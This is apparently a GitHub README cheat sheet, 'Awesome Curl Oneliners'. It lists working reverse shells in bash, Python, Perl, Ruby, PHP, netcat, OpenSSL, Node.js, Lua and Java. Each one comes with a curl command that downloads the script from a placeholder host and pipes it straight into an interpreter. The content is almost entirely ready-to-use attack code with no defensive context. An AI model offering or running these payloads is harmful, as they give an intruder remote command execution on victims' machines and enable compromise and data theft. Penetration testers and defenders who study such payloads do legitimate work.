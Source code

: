 <h1 align="center"><b>Awesome Curl Oneliners</b></h1>

![image](https://github.com/user-attachments/assets/4e9e721d-5d9e-4e55-bcf2-6bde75d9b3d8)



<br>
<br>

Bash Reverse Shell

```bash

curl -s http://example.com/shell.sh | bash

```

shell.sh:

```bash

#!/bin/bash
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1

```

Bash Reverse Shell using mkfifo

```bash

curl -s http://example.com/shell_fifo.sh | bash

```

shell_fifo.sh:

```bash

#!/bin/bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f

```

Python 2 Reverse Shell

```bash

curl -s http://example.com/shell_py2.py | python

```

shell_py2.py:

```bash

import socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 1234))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])

```

Python 3 Reverse Shell

```bash

curl -s http://example.com/shell_py3.py | python3

```

shell_py3.py:

```bash

import socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 1234))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])

```

Perl Reverse Shell

```bash

curl -s http://example.com/shell.pl | perl

```

shell.pl:

```bash

#!/usr/bin/perl
use Socket;
$i="127.0.0.1";
$p=1234;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
  open(STDIN,">&S");
  open(STDOUT,">&S");
  open(STDERR,">&S");
  exec("/bin/sh -i");
};


```

Ruby Reverse Shell

```bash

curl -s http://example.com/shell.rb | ruby

```

shell.rb:

```bash

#!/usr/bin/env ruby
require 'socket'
require 'open3'

def exec_cmd(cmd)
  Open3.popen2e(cmd) do |stdin, stdout_and_stderr, wait_thr|
    stdout_and_stderr.each do |line|
      yield line
    end
  end
end

s = TCPSocket.open("127.0.0.1", 1234)

while (line = s.gets)
  exec_cmd(line.chomp) do |output|
    s.puts output
  end
end

```

PHP Reverse Shell

```bash

curl -s http://example.com/shell.php | php

```

shell.php:

```bash

<?php
$ip = '127.0.0.1';
$port = 1234;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>

```

Netcat Reverse Shell

```bash

curl -s http://example.com/shell_nc.sh | bash

```

shell_nc.sh:

```bash

#!/bin/bash
nc -e /bin/sh 127.0.0.1 1234

```

OpenSSL Reverse Shell

```bash

curl -s http://example.com/shell_openssl.sh | bash

```

shell_openssl.sh:

```bash

#!/bin/bash
mkfifo /tmp/ssl; openssl s_client -quiet -connect 127.0.0.1:1234 < /tmp/ssl | /bin/sh > /tmp/ssl 2>&1; rm /tmp/ssl

```
Node.js Reverse Shell


```bash
curl -s http://example.com/shell.js | node



```

shell.js:

```bash

(() => {
    const net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    const client = new net.Socket();
    client.connect(1234, "127.0.0.1", () => {
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the node script from crashing
})();

```
Lua Reverse Shell

 
```bash
curl -s http://example.com/shell.lua | lua
```
shell.lua:

 
```bash
local host, port = "127.0.0.1", 1234
local socket = require("socket")
local tcp = socket.tcp()
tcp:connect(host, port)
while true do
  local cmd = tcp:receive()
  local handle = io.popen(cmd)
  local result = handle:read("*a")
  handle:close()
  tcp:send(result)
end
```

```bash
curl -s -o shell.java http://localhost/shell.java && javac shell.java && java shell
```

shell.java:

```bash

import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class shell {
    public static void main(String[] args) {
        try {
            Socket s = new Socket("127.0.0.1", 1234);
            InputStream in = s.getInputStream();
            OutputStream out = s.getOutputStream();
            Process p = new ProcessBuilder("/bin/sh").redirectErrorStream(true).start();
            InputStream pin = p.getInputStream();
            OutputStream pout = p.getOutputStream();
            while (!s.isClosed()) {
                while (in.available() > 0) pout.write(in.read());
                while (pin.available() > 0) out.write(pin.read());
                out.flush();
                pout.flush();
                try {
                    p.exitValue();
                    break;
                } catch (Exception e) {
                    // Process not finished yet
                }
            }
            p.destroy();
            s.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
